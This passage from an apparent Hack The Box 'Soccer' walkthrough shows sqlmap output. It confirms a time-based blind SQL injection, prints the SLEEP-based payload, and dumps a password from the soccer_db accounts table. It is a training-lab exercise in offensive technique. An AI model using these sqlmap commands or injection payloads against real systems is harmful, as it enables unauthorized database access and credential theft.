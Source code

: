 ```bash
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[04:31:54] [INFO] confirming MySQL
[04:31:54] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[04:32:06] [INFO] adjusting time delay to 2 seconds due to good response times
[04:32:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0.0
[04:32:06] [INFO] fetched data logged to text files under '/home/n3hal/.local/share/sqlmap/output/localhost'

[*] ending @ 04:32:06 /2022-12-29/

```

`sqlmap` detects the `time-based blind injection`.

After tinkering with the SQLi, you will know that there is a `soccer_db` database with a table called `accounts` having a column called `password`.

```bash

┌──(n3hal㉿Universe7)-[~/…/hackthebox/soccer/web/exploits]
└─$ sqlmap -u "http://localhost:1337/?id=1" -D soccer_db -T accounts -C password --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:34:57 /2022-12-29/

[04:34:57] [INFO] resuming back-end DBMS 'mysql' 
[04:34:57] [INFO] testing connection to the target URL
[04:34:59] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.10.8')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 6779 FROM (SELECT(SLEEP(5)))zdVp)
---
[04:34:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL 8
[04:34:59] [INFO] fetching entries of column(s) 'password' for table 'accounts' in database 'soccer_db'
[04:34:59] [INFO] fetching number of column(s) 'password' entries for table 'accounts' in database 'soccer_db'
[04:34:59] [INFO] resumed: 1
[04:34:59] [INFO] resumed: PlayerOftheMatch2022
Database: soccer_db
Table: accounts
[1 entry]
+----------------------+
| password             |
+----------------------+
| PlayerOftheMatch2022 |
+----------------------+
```